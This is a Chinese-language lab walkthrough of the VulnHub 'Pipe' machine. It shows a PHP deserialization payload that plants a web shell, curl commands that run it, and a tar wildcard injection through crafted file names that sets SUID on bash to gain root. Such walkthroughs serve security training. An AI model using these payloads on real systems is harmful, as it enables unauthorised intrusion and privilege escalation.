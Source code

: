 # /dev/random: Pipe

2025.03.11 https://www.vulnhub.com/entry/devrandom-pipe,124/

[video](https://www.bilibili.com/video/BV1YqQGYoEG7/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
57996/tcp open  unknown
```

访问 http://192.168.5.39/ 是 http-basic 认证，目前没有用户名和密码，nmap 扫描发现 Basic realm=index.php 。

目录扫描 http://192.168.5.39/images/pipe.jpg 下载图片查看隐写，没有隐写。

发现另外一个目录 http://192.168.5.39/scriptz/ 里面有 log.php.BAK 和 php.js ， 下载 BAK 文件，里面有 php 代码，后面可能使用 php 反序列化。

需要找到用户名和密码通过签名的 http 认证才能继续进行,经过爆破没有找到。

尝试使用 BP 拦截，然后修改访问方式为 POST 访问地址为 /index.php 就得到了 index.php 页面的内容，查看页面源代码，发现：

```html
<script src="scriptz/php.js"></script>
<script>
    function submit_form() {
        var object = serialize({ id: 1, firstname: "Rene", surname: "Margitte", artwork: "The Treachery of Images" });
        object = object.substr(object.indexOf("{"), object.length);
        object = 'O:4:"Info":4:' + object;
        document.forms[0].param.value = object;
        document.getElementById("info_form").submit();
    }
</script>

<form action="index.php" id="info_form" method="POST">
    <input type="hidden" name="param" value="" />
    <a href="#" onclick="submit_form(); return false;">Show Artist Info.</a>
</form>

O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}
```

发现 serialize 将 object 转化成了 php 反序列化字符串，然后将值设置到 form 表单中的 param 参数上，点击后，就进行了提交：

```
curl --data 'param=O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}' http://192.168.5.39/index.php
```

查看 log.php.BAK 这个文件，发现其中在 destruct 函数中写入了文件，可能有反序列化写入文件的漏洞，尝试构造 Log 这个类，然后用上面接口提交，触发这个类的反序列化执行：

```php
<?php
class Log
{
    public $filename = '/var/www/html/images/shell.php'; # 这里看到有 images 和 scriptz 2个目录，看看哪个目录能有写权限
    public $data = '<?php echo 1; system($_REQUEST[1]);?>';
}
$log = new Log();
$serialized_data = serialize($log);
echo  $serialized_data;
?>
```

```
curl --data-urlencode 'param=O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/images/shell.php";s:4:"data";s:37:"<?php echo 1; system($_REQUEST[1]);?>";}' http://192.168.5.39/index.php

curl -X POST http://192.168.5.39/images/shell.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

执行反弹 shell，到 kali 上。

在/home/rene/backup/中发现 backup.tar.gz 和 sys-17532.BAK ，同时发现 sys-30855.BAK 这种文件每 1 分钟生成一次，crontab 发现：

```
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

create_backup.sh 没权限读取，看不到具体内容。

/usr/bin/compress.sh 每 5 分钟执行一次，内容为：

```
rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

发现会将 /home/rene/backup 中的所有内容进行打包,同时 backup 目录的权限是 777，这里可以使用 tar 提权：

```
cd /home/rene/backup
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

等待 5 个整数分钟，这时 bash 已经变成 suid 权限，可以直接提到 root 权限：

```
www-data@pipe:/home/rene/backup$ /bin/bash -p
bash-4.3# cd /root
bash-4.3# ls
create_backup.sh  flag.txt
bash-4.3# cat flag.txt

Well Done!
Here's your flag: 0089cd4f9ae79402cdd4e7b8931892b7
```
